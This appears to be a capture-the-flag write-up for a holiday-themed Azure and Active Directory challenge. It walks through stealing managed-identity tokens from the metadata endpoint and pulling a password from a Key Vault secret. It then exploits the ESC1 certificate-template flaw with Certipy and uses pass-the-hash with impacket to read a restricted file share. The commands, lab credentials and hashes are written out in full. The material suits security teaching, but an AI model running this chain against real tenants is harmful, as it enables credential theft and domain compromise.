


# Active Directory

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective5.zip](https://.../)

## Objective

!!! question "Request"
    Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

??? quote "Ribb Bonbowford (Coggoggle Marina)"
    Hi there, could you do me a quick favor?<br/>

    Can you go and check on Alabaster Snowball for me? He's at Rainraster Cliffs on Pixel Island. I heard some rumors he's been experimenting with ChatNPT again and I'm a little worried about what he's cooking up.<br/>

    Thank you so much!<br/>

    Please let me know what you find out.<br/>

    Hello, I'm Ribb Bonbowford. Nice to meet you!<br/>

    Oh golly! It looks like Alabaster deployed some vulnerable Azure Function App Code he got from ChatNPT.<br/>

    Don't get me wrong, I'm all for testing new technologies. The problem is that Alabaster didn't review the generated code and used the Geese Islands Azure production environment for his testing.<br/>

    I'm worried because our Active Directory server is hosted there and Wombley Cube's research department uses one of its fileshares to store their sensitive files.<br/>

    I'd love for you to help with auditing our Azure and Active Directory configuration and ensure there's no way to access the research department's data.<br/>

    Since you have access to Alabaster's SSH account that means you're already in the Azure environment. Knowing Alabaster, there might even be some useful tools in place already.<br/>

## Hints

??? tip "Useful Tools"
    It looks like Alabaster's SSH account has a couple of tools installed which might prove useful..

??? tip "Misconfiguration ADventures"
    Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.


## Solution


The get-source-control Azure REST API endpoint provides details about where an Azure Web App or Function App is deployed from.

This is follow up the SSH certificate quest, we have access to the admin account:

```
alabaster@ssh-server-vm:~$ ls -la
total 36
drwx------ 1 alabaster alabaster 4096 Nov  9 14:07 .
drwxr-xr-x 1 root      root      4096 Nov  3 16:50 ..
-rw-r--r-- 1 alabaster alabaster  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 alabaster alabaster 3665 Nov  9 17:03 .bashrc
drwxr-xr-x 3 alabaster alabaster 4096 Nov  9 14:07 .cache
-rw-r--r-- 1 alabaster alabaster  807 Apr 23  2023 .profile
drwxr-xr-x 6 alabaster alabaster 4096 Nov  9 14:07 .venv
-rw------- 1 alabaster alabaster 1126 Nov  9 14:07 alabaster_todo.md
drwxr-xr-x 2 alabaster alabaster 4096 Nov  9 14:07 impacket

```

subscrptionid: 2b0942f3-9bca-484b-a508-abdae2db5e64

```https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/resources?api-version=2021-04-01 | jq
```

```bash linenums="1" hl_lines="7" title="Just code"
curl -X GET -H "Authorization: Bearer 
<Access_Token_base64>
" 
"https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/resources?api-version=2021-04-01" | jq 

```

Return value: 
```

{
  "value": [
    {
      "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv",
      "name": "northpole-ssh-certs-kv",
      "type": "Microsoft.KeyVault/vaults",
      "location": "eastus",
      "tags": {}
    },
    {
      "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv",
      "name": "northpole-it-kv",
      "type": "Microsoft.KeyVault/vaults",
      "location": "eastus",
      "tags": {}
    }
  ]
}
```

We then use Resources – Get to enumerate: 

```"https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv?api-version=2023-02-01" | jq```

Return value: 
```
{
  "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv",
  "name": "northpole-ssh-certs-kv",
  "type": "Microsoft.KeyVault/vaults",
  "location": "eastus",
  "tags": {},
  "systemData": {
    "createdBy": "thomas@sanshhc.onmicrosoft.com",
    "createdByType": "User",
    "createdAt": "2023-11-12T01:47:13.059Z",
    "lastModifiedBy": "thomas@sanshhc.onmicrosoft.com",
    "lastModifiedByType": "User",
    "lastModifiedAt": "2023-11-12T01:50:52.742Z"
  },
  "properties": {
    "sku": {
      "family": "A",
      "name": "standard"
    },
    "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
    "accessPolicies": [
      {
        "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
        "objectId": "0bc7ae9d-292d-4742-8830-68d12469d759",
        "permissions": {
          "keys": [
            "all"
          ],
          "secrets": [
            "all"
          ],
          "certificates": [
            "all"
          ],
          "storage": [
            "all"
          ]
        }
      },
      {
        "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
        "objectId": "1b202351-8c85-46f1-81f8-5528e92eb7ce",
        "permissions": {
          "secrets": [
            "get"
          ]
        }
      }
    ],
    "enabledForDeployment": false,
    "enableSoftDelete": true,
    "softDeleteRetentionInDays": 90,
    "vaultUri": "https://northpole-ssh-certs-kv.vault.azure.net/",
    "provisioningState": "Succeeded",
    "publicNetworkAccess": "Enabled"
  }
}
```

### Get the new access token: 

```curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net' -H Metadata:true -s | jq```

We need to record the base64 access token returned to us. 

### KEY VALUT password: 

Request a new Token: 

```curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq```

Use the new token to make request: 

```bash linenums="1" hl_lines="7" title="Just code"
curl -X GET -H "Authorization: Bearer <New_Token>" "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv/privateEndpointConnections?api-version=2022-07-01" | jq
```


### Get the secret name: 


"https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4" | jq

"https://northpole-it-kv.vault.azure.net/certificates/issuers?api-version=7.4" | jq

"https://northpole-it-kv.vault.azure.net/certificates?api-version=7.4" | jq


### Get the secret content by its name: 

``` "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4" | jq ```

We can use the syntax 
```curl -X GET -H "Authorization: Bearer <New_Token>"``` followed by above commands to request those resources!!!


```
{
  "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
  "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
  "attributes": {
    "enabled": true,
    "created": 1699564823,
    "updated": 1699564823,
    "recoveryLevel": "Recoverable+Purgeable",
    "recoverableDays": 90
  },
  "tags": {}
}
```

Refer back to penetration test report challenge, there is a vulnerability in certificate template used in active directory Certificate Services. 

```https://github.com/ly4k/Certipy```

```bash linenums="1" hl_lines="7" title="Just code"
certipy find -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53
certipy find -vulnerable -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53
```

```
[!] Vulnerabilities
      ESC1                              : 'NORTHPOLE.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

Result suggest the server is vulnerable to ESC1. 

### Command to get the certificate according to template:

```certipy req -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers```

### Command to exploit ESC1 vulnerability:

```certipy req -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers -target northpole.local -upn researchers@northpole.local -dns npdc01.northpole.local```

### Get the file share name: 

```smbclient.py northpole.local/elfy:J4\`ufC49\/J4766@10.0.0.53```

```bash linenums="1" hl_lines="7" title="Just code"
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL

# use FileShare
# ls
drw-rw-rw-          0  Sat Dec 16 01:15:23 2023 .
drw-rw-rw-          0  Sat Dec 16 01:15:20 2023 ..
-rw-rw-rw-     701028  Sat Dec 16 01:15:23 2023 Cookies.pdf
-rw-rw-rw-    1521650  Sat Dec 16 01:15:23 2023 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Sat Dec 16 01:15:23 2023 SignatureCookies.pdf
drw-rw-rw-          0  Sat Dec 16 01:15:23 2023 super_secret_research
-rw-rw-rw-        165  Sat Dec 16 01:15:23 2023 todo.txt
```


```alabaster@ssh-server-vm:~/impacket$ lookupsid.py northpole.local/elfy:J4\`ufC49\/J4766@10.0.0.53```

Returns notable results: 

```
1103: NORTHPOLE\researchers (SidTypeGroup)
1105: NORTHPOLE\wombleycube (SidTypeUser)
```

To confirm wombley is our suspect: 
```GetADUsers.py northpole.local/elfy:'J4`ufC49/J4766' -dc-ip 10.0.0.53 -all```


Since Wombley Cube is a researcher in Noir island, you can probably start exploiting ESC1 from this step. 

```certipy req -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers -target northpole.local -upn researchers@northpole.local -dns npdc01.northpole.local```

### To become Wombley

```certipy req -u elfy@northpole.local -p J4\`ufC49\/J4766 -dc-ip 10.0.0.53 -ca northpole-npdc01-CA -template NorthPoleUsers -target northpole.local -upn wombleycube@northpole.local -dns npdc01.northpole.local```

```certipy auth -pfx administrator_dc.pfx -dc-ip 10.0.0.53```

```certipy auth -pfx wombleycube_npdc01.pfx -dc-ip 10.0.0.53```

```psexec.py northpole.local/wombleycube@10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23```
psexec shows the ‘FileShare’ is not writable. 


```
smbclient.py northpole.local/wombleycube@10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23

# cat todo.txt
1. Bake some cookies.
2. Restrict access to C:\FileShare\super_secret_research to only researchers so everyone cant see the folder or read its contents
3. Profit

# cd super_secret_research
# cat InstructionsForEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```


### Images

I stole wombley's secret cookies, if you are interested in cooking yourself
a Christmas meal: 



#### The method is base64 encoding and decoding!



!!! success "Answer"
    The secret file is: InstructionsForEnteringSatelliteGroundStation.txt
    AND cookies.pdf

## Response

!!! quote "Ribb Bonbowford "
    Wow, nice work. I'm impressed! </br>

    This is all starting to feel like more than just a coincidence though. </br>Everything Alabaster's been setting up lately with the help of ChatNPT </br>contains all these vulnerabilities. It almost feels deliberate, if you ask me.</br>

    Now obviously an LLM AI like ChatNPT cannot have deliberate motivations </br>itself. It's just a machine. But I wonder who could have built it and who is controlling it?</br>

    On top of that, we apparently have a satellite ground station on Geese </br>Islands. I wonder where that thing would even be located.</br>

    Well, I guess it's probably somewhere on Space Island, but I've not been there yet.</br>

    I'm not a big fan of jungles, you see. I have this tendency to get lost in them.</br>

    Anyway, if you feel like investigating, that'd be where I'd go look.</br>

    Good luck and I'd try and steer clear of ChatNPT if I were you.</br>
